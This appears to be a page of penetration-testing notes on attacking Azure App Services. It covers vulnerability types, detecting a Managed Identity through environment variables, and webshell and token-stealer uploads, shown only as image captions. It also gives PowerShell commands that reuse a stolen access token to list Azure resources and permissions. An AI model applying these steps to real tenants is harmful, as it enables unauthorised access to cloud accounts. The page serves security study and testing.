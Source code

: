 # App Service

## App services

> Different sort of vulnerabilities can be found such as SQLi, file upload, commands injection etc.
>
> App services are most of the time running under \*Low privilege\*, restricting the impact of an attack.
>
> In some case, Management Identity in place on a App Service :&#x20;
>
> Ex: A user upload a file on an App Service and the App Service is moving the file on a VM.
>
> An Azure role has maybe created to handle the task.
>
> If we have able to compromise this Manage Identity account, we can abuse his privileges, e.g. connect to a Database, Execute commands on a Virtual Machine etc ..

### Manage Identity

> Once an App service is compromised, we can confirm if Management Identity is in place.

#### ENV variables

> If the following variables are listed in the ENV variables, MI is in place
>
> * **IDENTITY\_HEADER**
> * **IDENTITY\_ENDPOINT**

<figure><img src="../../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Common Web APP vulnerabilties

### Classic file upload

* &#x20;phtml instead of doc ...

<figure><img src="../../../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>simple webshell</p></figcaption></figure>

* token stealer

<figure><img src="../../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Using the stolen token

* check the roles (using the clientID and JWT)

```powershell
PS C:\Tools\Az> import-module az
PS C:\Tools\Az> Connect-AzAccount -AccessToken $token -AccountId <clientID>
PS C:\Tools\Az> Get-AzResource
PS C:\Tools\Az> 

```

OR



```powershell
$URI = 'https://management.azure.com/subscriptions/<CLIEND-ID>/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/provide
rs/Microsoft.Authorization/permissions?api-version=2015-07-01'

PS C:\> $RequestParams = @{
>> Method = 'GET'
>> Uri= $URI
>> Headers = @{
>> 'Authorization' = "Bearer $Token"
>> }
>> }
PS C:\> (Invoke-RestMethod @RequestParams).value



```

###

